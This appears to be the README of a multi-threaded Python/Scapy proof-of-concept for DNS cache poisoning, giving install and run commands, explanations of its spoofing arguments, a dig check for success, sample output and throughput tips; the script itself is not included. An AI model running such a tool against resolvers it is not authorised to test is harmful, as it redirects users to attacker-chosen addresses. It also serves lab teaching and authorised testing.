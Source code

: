# DNS Cache Poisoning PoC

A **multi-threaded** proof-of-concept (PoC) for DNS cache poisoning attacks.  
**For educational and authorized security testing purposes only**.

## Overview

This script attempts to brute force the combination of **DNS transaction ID** and **source port** used by a target DNS resolver in order to inject a **malicious A record** into its cache. Modern DNS servers typically employ randomization to mitigate such attacks, making real-world success rare unless:

1. The DNS server is **old or misconfigured**, with weak or no source-port randomization.  
2. You have **man-in-the-middle** capabilities to sniff the actual TxID and port.  
3. You’re testing a **lab environment** where randomization is deliberately reduced.

Despite the difficulty of succeeding against fully hardened resolvers, this PoC demonstrates the principles behind DNS cache poisoning—originally popularized by the Kaminsky attack.

## Features

- **Multi-threaded** approach using Python’s `threading` module.  
- Brute-forces a **range of ports** (defaults to `50000–50100`) and multiple DNS **transaction ID** guesses per port (default `500`).  
- **Light verbosity**: Logs progress so you can see how many packets have been sent per port.  
- Configurable via **command-line arguments** (e.g., domain, malicious IP, target resolver, etc.).  
- Uses [Scapy](https://scapy.readthedocs.io/en/latest/) for packet crafting and sending.

## Usage

### 1. Install Dependencies

    pip3 install scapy

### 2. Run the PoC

    python3 dns_poison.py \
      --target-resolver 192.168.1.10 \
      --fake-ns-ip 8.8.8.8 \
      --domain mytest.domain.com \
      --malicious-ip 1.2.3.4 \
      --port-start 50000 \
      --port-end 50100 \
      --attempts-per-port 500 \
      --threads 10 \
      --packets-per-log 100

Or all in one line:

    python3 dns_poison.py --target-resolver 192.168.1.10 --fake-ns-ip 8.8.8.8 --domain mytest.domain.com --malicious-ip 1.2.3.4 --port-start 50000 --port-end 50100 --attempts-per-port 500 --threads 10 --packets-per-log 100

**Arguments explained**:

- `--target-resolver`: IP address of the **DNS resolver** you want to test/attack.  
- `--fake-ns-ip`: The IP you are **spoofing** as the authoritative nameserver (often 8.8.8.8 or your real authoritative NS).  
- `--domain`: The DNS name you want to “poison.”  
- `--malicious-ip`: The IP address you want the target resolver to serve for the domain once poisoned.  
- `--port-start`, `--port-end`: Range of **UDP source ports** you suspect the resolver might use for its outbound queries.  
- `--attempts-per-port`: Number of random DNS **transaction ID** guesses to send per port.  
- `--threads`: Number of **worker threads** for parallel packet sending.  
- `--packets-per-log`: Print a status update every N packets (helps you see progress).

### 3. Verification

If the resolver’s cache becomes poisoned, subsequent queries for `mytest.domain.com` (pointing to the target resolver) will return the malicious IP you specified—until the resolver’s TTL or cache is cleared.

Example check (from any machine using the target resolver):

    dig @192.168.1.10 mytest.domain.com

If it answers with `1.2.3.4`, the attack succeeded.

## Example Output

    [+] Target Resolver : 192.168.1.10
    [+] Fake NS IP      : 8.8.8.8
    [+] Domain          : mytest.domain.com
    [+] Malicious IP    : 1.2.3.4
    [+] Port Range      : 50000 - 50100 (101 ports)
    [+] Attempts/Port   : 500
    [+] Threads         : 10
    [+] Packets/Log     : 100
    [*] Press Ctrl+C to stop early. Starting...
    [Thread-1] Starting port 50000
    [Thread-1] Port 50000: Sent 100 packets (0.3s elapsed)
    ...
    [Thread-1] Finished port 50000, total 500 packets.
    [Thread-1] Starting port 50001
    ...
    [*] All ports processed. Finished sending packets.
    [*] Check the DNS cache of the resolver to see if it was poisoned.

## Notes

- **Performance**: For higher throughput, you can increase `--threads` or expand the port range, or reduce `--packets-per-log` to limit console printing overhead.  
- **Modern Defenses**: Randomizing source ports + transaction IDs makes pure brute force extremely difficult in production environments. For a realistic success rate, you typically need to **observe** (sniff) the actual query’s TxID + port in real time.  
- **Ethical Considerations**: This PoC is intended for **authorized** penetration testing and educational demonstrations. Do not use it unlawfully.

## License

_This project is licensed under the MIT License - see the LICENSE file for details._

---

**Disclaimer**: Use responsibly and legally. We are not liable for any misuse or damages. If you’re testing in a production environment, ensure you have explicit written permission.
